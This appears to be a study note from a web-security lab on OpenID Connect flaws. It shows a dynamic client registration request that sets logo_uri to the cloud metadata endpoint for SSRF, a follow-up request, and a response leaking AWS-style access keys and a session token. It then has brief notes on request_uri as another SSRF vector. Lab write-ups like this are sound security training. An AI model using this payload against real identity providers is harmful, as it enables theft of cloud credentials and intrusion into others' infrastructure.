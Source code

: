 ## OpenID Connect vulnerabilities

### Unprotected dynamic client registration

ssrf to admin key
```http
POST /reg HTTP/2
Host: oauth-0af9004e0457d9db808a563d024a00dd.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: application/json
Content-Length: 193

{"redirect_uris":["https://0a190053045bd9af80c2583100f30019.web-security-academy.net/oauth-callback"],
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```
request the logo with the client id
```http
GET /client/9cwyxbkfjF40m8rjLIBV_/logo HTTP/2
Host: oauth-0af9004e0457d9db808a563d024a00dd.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
```
response
```http
HTTP/2 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 530

{
  "Code" : "Success",
  "LastUpdated" : "2024-06-05T07:21:33.934240349Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "EWqMIE450ZlHDi9B77X6",
  "SecretAccessKey" : "f8ytm2hfyePluYz4eZiPoW6iikeFzbWw5ISWY80w",
  "Token" : "4EgQnNWENn7nPkaT7yEUJ5Pj1S5QNU025PZiz5IfygTOqeUOpQlNsmHzEvEkCk8cXXF5VkdBXQUOtGqj4TYGXpPHef8YiRSvfBX2I7GiJe3Cj3sznNzvcSu8LjQGB6Zu34ksqtoi19Vv6HIzt5iQgBsIvF8C0G1avKKNXVFymkmqXnBBJCrgFUhR3g66Sjw5SgFe1DH9utEABFvr4VBDh37PPNfVTp7LM9SwAti7dZA7SpTCtUdeTITsvqZYUej3",
  "Expiration" : "2030-06-04T07:21:33.934240349Z"
}
```

### Allowing authorization requests by reference
- Some OpenID providers give you the option to pass these in as a `JSON web token (JWT)` instead. 
- If this feature is supported, you can send a single `request_uri `parameter **pointing to a JSON web token** that contains the rest of the OAuth parameters and their values.
- this `request_uri` parameter is another potential vector for SSRF.
- Some servers may effectively validate the query string in the authorization request, but may fail to adequately apply the same validation to **parameters in a JWT**, including the `redirect_uri`
- To check whether this option is supported, you should look for the `request_uri_parameter_supported` option in the configuration file and documentation. Alternatively, you can just try adding the request_uri parameter to see if it works
